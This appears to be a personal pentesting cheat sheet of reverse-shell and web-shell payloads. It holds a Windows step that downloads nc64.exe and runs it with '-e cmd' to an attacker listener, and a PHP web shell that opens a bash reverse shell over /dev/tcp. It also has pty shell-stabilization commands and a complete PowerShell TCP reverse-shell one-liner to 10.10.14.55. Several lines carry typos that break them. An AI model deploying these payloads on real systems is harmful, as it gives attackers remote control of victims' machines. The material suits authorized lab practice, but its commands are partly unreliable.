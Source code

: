 For kali Shell scripts:
```
/usr/share/webshells
```

# Windows Reverse Shell
``` powershell
#ALLWAYS USE nc.exe or nc64.exe in /Are/pentest/netcat
#Transfer to target windows machine
Invoke-WebRequest http://<IP>:<PORT>/<FILE> -OutFile <FILENAME>
#Run with cmd
.\nc64.exe <ATTACK_LISTENER_IP> <ATTACK_PORT> -e cmd
```
### Reverse Shell
```shell
nc -lvnp 4444
```
### PHP Web Shell
``` php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<your_kali_ip>/4444 0>&1'"); ?>
```
# Shell Stabilization

### Python3
Stabilize to bin/bash
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
<Ctrl+Z>
stty raw -echo;fg
```

from siren. (test if works then overwrite above)
``` bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-255color
alis ll='clear ; ls -lsaht --color=auto'
<Ctrl+Z>
stty raw -echo; fg ; reset
stty cloumns 200 rows 200
```
### Webshell -> Reverse shell
``` powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.55',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```